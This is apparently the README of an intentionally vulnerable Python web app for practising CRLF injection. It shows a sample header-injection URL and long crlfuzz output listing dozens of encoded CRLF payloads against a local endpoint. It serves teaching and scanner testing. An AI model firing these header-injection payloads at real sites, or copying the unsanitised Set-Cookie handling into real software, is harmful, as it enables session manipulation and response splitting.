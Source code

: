 # crlf-vulnerable-app

This is a vulnerable web server built using Python to demonstrate a CRLF Injection (Carriage Return Line Feed Injection) vulnerability. The server does not sanitize user input properly, which allows malicious users to inject arbitrary HTTP headers into the response.

* CRLF Injection: The vulnerability exists in how user input is handled when setting HTTP headers. In this case, user-supplied input is directly used to create a Set-Cookie header without any validation or sanitization.
* An attacker can inject newline characters (CRLF - %0D%0A) to break the current header and inject new headers into the HTTP response.


The server has a single vulnerable endpoint: / It expects a user parameter, which is then used to craft a Set-Cookie header.


start the web app :
```
python3 app.py
```
example:
```
http://127.0.0.1:8080/?user=test
```
This will respond with:
```
Cookie: Set-Cookie: name=test; Path=/
Body: Hello, test!
```

By injecting a CRLF sequence (%0D%0A), an attacker can add arbitrary headers, for example:

```
http://127.0.0.1:8080/?user=attacker%0D%0ASet-Cookie:+hacked=true
```
This URL sends the following HTTP response:
```
Injected Cookie: Set-Cookie: hacked=true
Original Cookie: Set-Cookie: name=attacker; Path=/
Body: Hello, attacker!
```
## crlfuzz
You can also use this web app to test for crlf scanning tools, for example with crlfuzz :
```bash
╰─ crlfuzz -u "http://127.0.0.1:8080/?user="

   _____ _____ __    _____
  |     | __  |  |  |   __|_ _ ___ ___
  |   --|    -|  |__|   __| | |- _|- _|
  |_____|__|__|_____|__|  |___|___|___|

      v1.4.0 - @dwisiswant0

[WRN] Use with caution. You are responsible for your actions
[WRN] Developers assume no liability and are not responsible for any misuse or damage.
[ERR] http://127.0.0.1:8080/?user=/\r\n\tSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/\r\tSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/\rSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/\r%20Set-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/\r\nSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/\r\n%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%00Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%0aSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/%e5%98%8a%e5%98%8dSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/%e5%98%8a%e5%98%8d%e5%98%8a%e5%98%8dSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%23%0a%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%3f%0d%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%3f%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%0d%0a%09Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%0d%0a%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%23%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%23%0a%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%3f%0d%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%3f%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%3fSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%3f%0dSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%23%0d%0aSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/crlfuzz\r\nSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/crlfuzz\rSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/crlfuzz\r\n%20Set-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/crlfuzz\r%20Set-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/crlfuzz\r\n\tSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/crlfuzz\r\tSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/crlfuzz%e5%98%8a%e5%98%8dSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/crlfuzz%e5%98%8a%e5%98%8d%e5%98%8a%e5%98%8dSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%00Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%0dSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%0d%09Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%0d%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%0d%0a%09Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%0d%0a%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%0d%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%23%0dSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%23%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%23%0a%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%23%0d%0aSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/?crlfuzz=%e5%98%8a%e5%98%8dSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/?crlfuzz=\rSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/?crlfuzz=\r%20Set-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/?crlfuzz=\r\nSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/?crlfuzz=\r\n%20Set-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/?crlfuzz=\r\n\tSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/?crlfuzz=\r\tSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%3f%0d%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%3f%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%3fSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/?crlfuzz=%3f%0dSet-Cookie:param=crlfuzz;
[ERR] http://127.0.0.1:8080/?user=/?crlfuzz=%e5%98%8a%e5%98%8d%e5%98%8a%e5%98%8dSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%0d%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%0d%0a%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%0d%09Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%0dSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%0d%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%23%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%0d%09Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%23%0dSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%23%0dSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%0d%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%23%0d%0aSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%3fSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%00Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%0d%20Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%0d%0a%09Set-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/%3f%0dSet-Cookie:param=crlfuzz;
[VLN] http://127.0.0.1:8080/?user=/crlfuzz%0dSet-Cookie:param=crlfuzz;
```
